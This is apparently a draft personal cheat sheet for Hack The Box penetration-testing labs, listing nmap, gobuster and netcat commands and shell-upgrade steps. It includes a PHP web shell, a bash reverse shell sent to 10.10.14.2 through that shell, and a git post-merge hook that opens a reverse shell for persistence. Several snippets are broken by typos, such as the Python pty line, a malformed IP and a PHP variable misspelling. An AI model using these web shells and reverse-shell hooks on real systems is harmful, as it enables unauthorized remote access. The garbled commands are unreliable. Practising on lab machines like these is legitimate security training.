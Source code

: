 ```yaml
---
title: "Hack The Box: Cheat Sheet"
date: DATE
draft: true
tags: ["pentesting","htb"]
reads: 2
---
```

# Hack THE BOX Cheat sheet

# nmap

nmap -p- ip -oA allports

# burp

ctrl u to url encode

# netcat

nc -lvnp 9001

# strings
-l
-s
-b
# linux
#
tools search for strings

right click references to addres

## python proper shelll

python -c 'import pty:pty.spwn("/bin/bash")'

stty raw -echo

fg

stty rows 34 cols 136

## priv check

sudo -l

# php

## return result

<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "select * from profiles");
$reults = pg_fetch_assoc($result);
print_r($results);
?>

## php reverse shell

<?php
echo "test";
system($_REQUEST['hello']);
?>

system.php?hello='bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'

# website

check robots.txt

search for config files

try to wget file than run exiftool to see how recent service running is

## Gobuster

gobuser dir -u http://10.10.114 -w /usr/share/worldists/dirbuster/miediom -o gobuster.out

remove 302

gobuser dir -u http://10.10.114 -w /usr/share/worldists/dirbuster/miediom -o gobuster.out -s 200,204,302,307

enumerate after login in using cookie

-c cookie to enumerate after login
## javascript

copy javscript into web console 

# Windows

## debug exe

x32dbg
 run to user code

find strings

find reference to address


# git hooks get code access

cd hooks

touch post-merge

chmod +x post-merge

#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.13/9001 0>&1'

# copy files we do have write access

cp -r templated /dev/shm/

# Sources

Ippsec : Bitlab